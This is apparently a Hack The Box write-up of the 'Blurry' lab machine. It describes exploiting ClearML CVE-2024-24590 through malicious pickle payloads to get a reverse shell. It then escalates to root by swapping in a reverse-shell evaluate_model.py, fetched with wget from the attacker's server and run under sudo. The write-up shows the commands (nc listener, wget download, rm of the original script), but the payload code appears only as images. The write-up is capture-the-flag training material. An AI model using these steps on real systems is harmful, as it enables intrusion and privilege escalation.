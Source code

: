 # Blurry Writeup

# Intro
Blurry is an interesting HTB machine where you will leverage the CVE 2024-24590 exploit to pop a reverse shell in order to escalate your privlages within the local system. This box uses ClearML, an open-source machine learning platform that allows its users to streamline the machine learning lifecycle. ClearML is used by many Data Engineers and Data Scientist.

Below you can find of the tools that I used to complete this challenge
1. Kali Linux: An operating system that specializes in penetration testing.
2. Nmap: An open-source toolf for network exploration, along with security auditing
3. Clearml python libraries: These libraries are used to interact with th open-source ClearML that we plan to hack into. I will go more into these libraries within the writeup.

I will go into detail regarding the steps taken. First we will go over the initial reconnaissance, identifying avenues of exploitation, exploitation foothold, then post exploitation.

### Initial Reconnisance
As with any initial penetration test, we will start with a nmap scan.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -v -sV -sC -p- 10.10.11.19                               
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-favicon: Unknown favicon MD5: 2CBD65DC962D5BF762BCB815CBD5EFCC
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: ClearML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

}
```

We see that we have ports 22 and 80 open. Also that that it is a Linux machine. To get more info, we will visit the page at blurry.htb or 10.10.11.19 within the web browser.


![appblurryhtb login](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/bf5b7bc6-a7f4-4fb8-ba1f-4367812385b5)


Here we are able to make a user name of our choosing and log into ClearML. You will be greated with a page regarding instructions of how to use clear ML along with creating your own credentials.

To do so, we will need to pip install the clearml libraries via the instrictions below.

![credentials](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/a2029720-dcc0-4de9-ae8a-5b35b59ee2af)



One thing to note, to be sure that the libaries are installed correctly, I ran a pip install command on the following:

```bash
pip install clearml
pip install clearml-init
pip install clearml-agent

}
```
For some reason the origional pip isntall ClearML did not properly install the clearml-init and clearml-agent for me. If you run into issues, I reccommend retying to pip install these.


### Avenues of Exploitation

After playing around with the website, and researching, I found that ClearML has a vulnerability (CVE2024-24590). This vulnerability can allow a user to run commands via the pickle python library.

The pickle library is used by many python users. The uses range from data transfer, saving a program state, or caching. From my experience as a data analyst/data scientist, the pickle library has many uses.

However in this case, we will use it as an exploit. Below is the python payload that I used.

![image](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/7d527fcd-1162-4f90-9172-747763d35ece)



### Exploitation Foothold

After the payload is created, we will run the the following command. This will start the ClearML agent to upload our malicious code to the ClearML site.

```bash
clearml-agent daemon --queue default
}
```

After this is ran, we will set up a listener (I put my listener on port 4444)

```bash
nc -lvnp 4444
}
```

Then execute the python payload

```bash
python3 <your python file payload>.py
```

NOTE: At least in my case, it took a while for me to establish a connection. I recommend getting a cup of coffee and coming back. After, you should see that we that we have a reverse shell.

![reverse shell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/b403c153-9b87-4527-9fc2-e7547d2e6af2)


### Post Exploitation

Now we are in the system and gained a foothold. It is good practice to see who we are, and if the user we are logged into has any root permissions. 

As seen below, we are the user jippity and they are able to run sudo privilages on the file path /user/bin/evaluate_model /models/*.pth. This means that we are able to run sudo level commands in this directory.

![root permissions](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/ab4bc222-3ff4-4fb3-b4b4-60f91938307d)


Before we do that, we can explore the directory to find the user flag. You should be able to find pretty easily as you navigate through the user files.

![userflag](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/721c2932-9a6a-49d3-b8e3-6ba81fed24ee)


After we get the userflag, our next target is the root flag. Since we know that the user we are logged in as (jippity) has sudo privlages specified in the file path above, we can navigate to the /models directory and see what is in there.

As we will see, they have two files, one being a demo_model.pth and a evaluate_model.py. Since we know that we can run sudo privlages, we can create a malicious python script to execute in order to excalate our privlages. We will do this by popping a reverse shell. Below is the python script I created in order to do so.

![evaluate_model python reverseshell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/736ec370-0133-4e3e-85f4-0fa073cd456a)


I named this file evaluate_model.py. The reason why is because we are tricking the system into thinking that it is running the origional evaluate_model.py that is within the /models directory. However, it will be running the code above instead.

After we created our second payload, we will remove the origional evaluate_model.py
```bash
rm /models/evaluate_model.py
```

Once that is removed, we will set up a simple python server on our attacking machine to upload the malicious python file.

```bash
python -m http.server <port of your choosing>
```

Then we will use wget to upload the file within the victim machine in the /models directory. NOTE: In your attacking machine, you will need to be in the directory where you ahve your malicious python file is.

```bash
wget http://<your ip>:<your port>/<malicious.py> -O evaluate_model.py
```

After, we should see that the script was succesfully uploaded. Now we will set up a netcat listener

![reverse shell root](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/3ce4a8bf-1a75-4f22-995e-22613e9743ba)



Now we will execute the scriptwithin the models directory with the following command.

```bash
sudo /usr/bin/evaluate_model /models*.pth
```
![sudo command](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/2d580148-49a5-4d90-bf4f-81d8fdfb8355)

At last we are logged in as root.

![root reverse shell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/ceb961b6-bf77-400c-b644-eec87db80749)

From here, we can explore directories as root and we can cat the root.txt file to get the root flag.

![rooted](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/7f4a980e-eb49-4cce-9106-518bd9062457)







